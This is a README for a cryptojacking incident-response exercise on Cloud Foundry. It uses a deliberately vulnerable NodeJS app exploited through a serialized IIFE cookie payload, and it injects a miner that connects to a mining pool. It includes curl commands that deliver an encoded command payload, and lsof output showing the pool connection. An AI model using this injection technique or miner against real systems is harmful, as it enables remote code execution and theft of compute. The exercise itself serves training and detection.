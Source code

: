 ## A cryptojacking incident response excercise for Cloud Foundry

This was inspired by, and originally forked from, code in https://github.com/mfdii/miner-blog, by [Michael Ducy](https://twitter.com/mfdii). That code accompanies [this blog post](https://sysdig.com/blog/detecting-cryptojacking-with-sysdigs-falco/), on Detecting Cryptojacking with Sysdig's [Falco](https://github.com/draios/falco).

I munged it for use in an incident response exercise with Cloud Foundry. It uses an Immediately-Invoked Function Expression attack on a NodeJS application to run arbitrary code in a container. The vulnerable application is in `node-exploitable`.

For this scenario, I injected a `miner`, which uses a [Node stratum-client](https://github.com/arnabk/stratum-client) to connect to a mining pool over port 3333, then it simulated mining activity by running [bcrypt](https://github.com/dcodeIO/bcrypt.js) to burn CPU.

I also experimented with using [cpulimit](https://github.com/opsengine/cpulimit), so the linked executable for Ubuntu 14.04 is in `miner/cl`.

Lastly, I thought I'd make things even harder by having other Node apps that just happened to a lot of CPU for every web request in `node-decoy`.

## Local demo

Window 1:

```bash
cd ./node-exploitable
npm install
npm start
...
```

Window 2:

```bash
payload=$(printf "ls -l /" | ./nodejspayload.py | base64)
curl -b "profile=$payload" -vs http://localhost:8000
```

Window 1 should then show the `ls -l /` results for the server

### Cloud Foundry demo

1. Push the expoitable client:

```bash
cd ./node-exploitable
cf push
cf logs hello-iife
```

```bash
./exploit-it.sh
```

Then `cf ssh hello-iife`. You should see the code in `/tmp/miner` and that `lsof -i` shows a connection to the mining pool.

```
node      160 vcap   10u  IPv4 22662477      0t0  TCP 1cefe2b8-25f0-418b-4e92-96da:53330->pool1.grlcgang.com:3333 (ESTABLISHED)
```

Meanwhile, `cf app hello-iife` should show one of the two instances burning a lot of CPU:

```
type:           web
instances:      2/2
memory usage:   64M
     state     since                  cpu     memory         disk
#0   running   2018-08-15T14:04:37Z   97.9%   54.6M of 64M   78.2M of 256M
#1   running   2018-08-15T14:04:37Z   0.0%    35.2M of 64M   72.5M of 256M
```